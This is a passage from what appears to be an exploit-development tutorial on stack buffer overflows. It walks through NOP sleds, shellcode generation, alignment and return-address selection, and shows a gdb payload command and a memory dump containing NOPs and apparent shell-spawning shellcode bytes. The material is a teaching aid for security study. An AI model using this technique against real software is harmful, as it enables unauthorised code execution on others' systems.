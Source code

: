 The problem with this is, shit happens on computers all the time which move the address space around, which could affect our shellcode being executed correctly.

To allow for this scenario, we use a "NOP sled" i.e. a string of NOPs that start at the beginning of our buffer, in front of our shellcode, so when the EIP sends execution to the beginning of our buffer, the NOP sled will "no execute and pass along" the pointer eventually to the start of our shellcode.

The NOP sled can be any size, but bear in mind it shares the same "offset" space with the Shellcode and Alignment, so combined these cannot add up to _more_ than the offset size.

### Shellcode

A few ways to generate shellcode

1. msfvenom
2. [/bin/cat](https://masterccc.github.io/tools/shellcode_gen/)
3. [pwntools](https://docs.pwntools.com/en/stable/)

### Alignment

The alignment bytes just make up the difference between the shellcode and the end of the offset.

### Return Address

The size of this is determined by what we say in the "finding the offset", where the EIP gets filled up with `A`'s until we see something like this for the crashed return address in gdb: `0x0000414141414141`, telling us the return address size is `6 bytes`.

> But what address are we writing in here?

Now that we know our `NOP Sled` is going to be at the start of our payload/buffer, we want the address where our `NOP`'s can be found.

For example, if we've got most of our payload determined:

```sh
(gdb) run $(python -c "print $nop_sled + $shellcode + $alignment + $return_address")
```

We send this off and can see the return address being overwritten...

```sh
Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
```

Staying inside `gdb`, dump the memory and look for our `NOP`'s i.e. `0x90909090`'s.

```sh
(gdb) x/100x $rsp-200
0x7fffffffe8c8: 0x004005a9      0x00000000      0xf7ffa268      0x00007fff
0x7fffffffe8d8: 0xffffecea      0x00007fff      0x67676f64      0x9090906f
0x7fffffffe8e8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe8f8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe908: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe918: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe928: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe938: 0x90909090      0x90909090      0x90909090      0xff319090
0x7fffffffe948: 0x03eabf66      0x4858716a      0x050ffe89      0x48583b6a
0x7fffffffe958: 0xb849d231      0x69622f2f      0x68732f6e      0x08e8c149
0x7fffffffe968: 0x89485041      0x485752e7      0x050fe689      0x48583c6a
0x7fffffffe978: 0x050fff31      0x42424242      0x42424242      0x42424242
0x7fffffffe988: 0x41414141      0x00004141      0xffffea88      0x00007fff
0x7fffffffe998: 0x00000000      0x00000002      0x004005e0      0x00000000
0x7fffffffe9a8: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe9b8: 0xffffea88      0x00007fff      0x00040000      0x00000002
0x7fffffffe9c8: 0x004005ac      0x00000000      0x00000000      0x00000000
0x7fffffffe9d8: 0x794daa23      0x97320a39      0x00400450      0x00000000
0x7fffffffe9e8: 0xffffea80      0x00007fff      0x00000000      0x00000000
```